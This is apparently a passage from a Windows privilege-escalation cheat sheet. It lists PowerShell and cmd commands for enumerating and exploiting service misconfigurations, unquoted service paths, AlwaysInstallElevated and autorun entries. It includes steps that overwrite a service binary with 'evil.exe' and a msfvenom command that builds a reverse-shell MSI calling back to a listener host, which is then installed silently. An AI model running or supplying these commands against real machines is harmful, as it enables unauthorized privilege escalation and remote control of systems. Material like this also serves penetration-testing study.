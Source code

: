 ```powershell

# SharpUp
.\SharpUp.exe
```

### Privilege Escalation Vectors

#### Service Misconfigurations
```powershell
# Check service permissions
sc qc <servicename>
accesschk.exe -uwcqv "Authenticated Users" *

# Check service binary permissions
icacls "C:\Program Files\Vulnerable Service\service.exe"

# Exploit writable service binary
copy /y evil.exe "C:\Program Files\Vulnerable Service\service.exe"
sc stop <servicename>
sc start <servicename>
```

#### Unquoted Service Paths
```powershell
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Exploit unquoted service path
# Example: C:\Program Files\Vulnerable Service\subdir\service.exe
# Create malicious executable at C:\Program Files\Vulnerable.exe
copy evil.exe "C:\Program Files\Vulnerable.exe"
sc stop <servicename>
sc start <servicename>
```

#### AlwaysInstallElevated
```powershell
# Check if AlwaysInstallElevated is enabled
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both are set to 1, create malicious MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

#### Registry Autoruns
```powershell
# Check autoruns
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Check for writable autorun executables
icacls "C:\Program Files\Autorun Program\program.exe"
```

